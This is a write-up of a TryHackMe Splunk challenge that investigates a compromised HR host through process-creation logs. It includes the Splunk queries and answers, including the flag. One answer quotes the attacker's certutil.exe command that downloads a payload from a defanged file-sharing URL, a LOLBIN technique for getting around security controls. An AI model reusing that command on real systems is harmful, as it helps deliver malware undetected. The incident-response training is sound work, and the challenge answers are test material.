# Benign-THM-Challenge
Write-Up: Suspicious Process Execution Investigation

# Challenge room to investigate a compromised host.

## Objective
Learn more about Splunk and how to investigate the logs.
 Investigate a potential security incident flagged by an IDS, which identified suspicious process execution on an HR department host. 
 Initial findings suggested unauthorized network information gathering and scheduled task execution.

### Skills Learned

- Log Parsing and Analysis: I become familiar with using Splunk to search and filter logs based on specific fields like UserName, ProcessName, and CommandLine, helping to identify unusual or suspicious activity
- Searching for Rare Events: I practice using Splunk queries like rare values to identify outliers or anomalies, such as impersonation or abnormal process executions. This includes finding instances where common processes are being used in an unusual manner, like the use of LOLBINs (Living Off the Land Binaries)
- Investigating Process Execution: I get hands-on experience with process execution analysis, including tracking down which processes were executed by specific users, which is critical for understanding how an attack unfolded
- Identifying Malicious Behavior: By analyzing suspicious activity such as downloads from third-party sites or the execution of potentially malicious payloads.
- Timeline Creation: Splunk help me create a timeline of events related to the attack, such as when a suspicious binary was downloaded, which is useful for both incident response and forensic investigations

### Tools Used

- Splunk

## Solution Steps
Overview:

A host from the HR department was compromised, and suspicious activities were observed on the system. These activities included the execution of scheduled tasks, which confirmed the initial suspicion. The process execution logs were pulled using Event ID: 4688 and ingested into Splunk under the index win_eventlogs for further investigation.

The organization is divided into three departments:

```
IT Department: James, Moin, Katrina
HR Department: Haroon, Chris, Diana
Marketing Department: Bell, Amelia, Deepak

```

Questions & Answers:

**Question 1**: *How many logs are ingested from the month of March, 2022?*

To find the number of logs ingested from March 2022, change the date on the right top corner

Answer: 13,959 logs were ingested during the month of March 2022.

---

**Question 2:** Imposter Alert: There seems to be an imposter account observed in the logs. What is the name of that user?

To identify the imposter user, I searched for usernames not in the list of known users:

`index=win_eventlogs EventID=4688
NOT (UserName="James" OR UserName="Moin" OR UserName="Katrina" OR
UserName="Haroon" OR UserName="Chris" OR UserName="Diana" OR
UserName="Bell" OR UserName="Amelia" OR UserName="Deepak")
| stats count by UserName`

This returned the following suspicious usernames:

```
Amel1a
Chris.fort
Daina

```

Answer: The imposter user is Amel1a.

We can Also use this type of queries

This command returns a unique list of values for a specific field.
Useful when you want to see all distinct values for a field (e.g., unique usernames).
`index=win_eventlogs EventID=4688
| stats values(UserName)`
or
This command counts the occurrences of events grouped by a specific field
Useful when you need to know how many times a specific field (like a user) appears in the logs.
`index=win_eventlogs EventID=4688
| stats count by UserName`

---

**Question 3**: Which user from the HR department was observed running scheduled tasks?

I searched for the execution of the scheduled tasks utility, schtasks.exe, which is commonly used for automated task management.

`index=win_eventlogs EventID=4688
| search ProcessName="*schtasks.exe*"`

Answer: The user who ran scheduled tasks is Chris.fort from the HR department.

---

**Question 4**: Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host?

Certutil.exe is a Windows command-line tool used for managing certificates, but it can be exploited by attackers to download malicious payloads. I found Haroon executing the following command:

`index=win_eventlogs EventID=4688
| search ProcessName="*Certutil.exe*"`

Answer: Haroon executed the command:
certutil.exe -urlcache -f -  hxxps[://]controlc[.]com/e4d11035 benign.exe

---

**Question 5**: To bypass the security controls, which system process (LOLBIN) was used to download a payload from the internet?

Answer: The system process used to bypass security controls was Certutil.exe, as it is a legitimate Windows process often overlooked by security systems.

---

**Question 6**: What was the date that this binary was executed by the infected host?

The date of execution was found just below the command line in the logs.

Answer: 2022-03-04.

---

**Question 7:** Which third-party site was accessed to download the malicious payload?

From the command line, I identified the third-party site used for downloading the payload.

Answer:  controlc[.]com

---

**Question 8:** What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?

The filename was included in the command line executed by Haroon.

Answer: The file saved was benign.exe.

---

**Question 9**: The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?

To find the pattern, I examined the URL provided in the command line, which pointed to the downloaded file.

Answer: The malicious content pattern is: THM{KJ&*H^B0}.

---

**Question 10:** What is the URL that the infected host connected to?

The URL was clearly visible in the executed command line.

Answer: The URL used to download the malicious payload is:
hxxps[://]controlc[.]com/e4d11035

---

**Conclusion**:

*The investigation involved identifying suspicious activities in the HR department's compromised host. By reviewing the logs and searching for specific execution patterns (e.g., use of Certutil.exe and schtasks.exe), we were able to determine the presence of a malicious user and the payload involved. The exploitation utilized a legitimate system tool to bypass security controls and download a payload from a third-party server.*

*Ref 1: Network Diagram*
